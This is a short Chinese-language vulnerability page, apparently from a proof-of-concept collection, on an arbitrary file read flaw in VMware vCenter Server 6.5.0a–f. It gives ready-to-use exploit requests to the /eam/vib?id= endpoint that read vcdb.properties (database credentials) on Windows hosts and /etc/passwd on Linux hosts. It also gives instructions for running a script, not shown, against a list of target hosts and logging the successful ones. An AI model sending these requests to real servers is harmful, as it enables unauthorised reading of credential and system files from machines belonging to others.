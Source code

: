 ## 漏洞概述

VMware vCenter特定版本存在任意文件读取漏洞，攻击者通过构造特定的请求，可以读取服务器上任意文件

## 影响范围

```http
VMware vCenter Server 6.5.0a- f 版本
```

## POC

```bash
urls.txt用于存放目标HOST，然后直接运行此脚本即可 python vCenter-info-leak.py
漏洞验证成功的目标存放于success.txt，连接失败的错误信息存放于error.txt中
```

## EXP

**Windows主机**

```
http://xxx.xxx.xxx.xxx/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

![](http://wikioss.peiqi.tech/vuln/vm-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

**Linux主机**

```
https://xxx.xxx.xxx.xxx/eam/vib?id=/etc/passwd
```

![](http://wikioss.peiqi.tech/vuln/vm-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
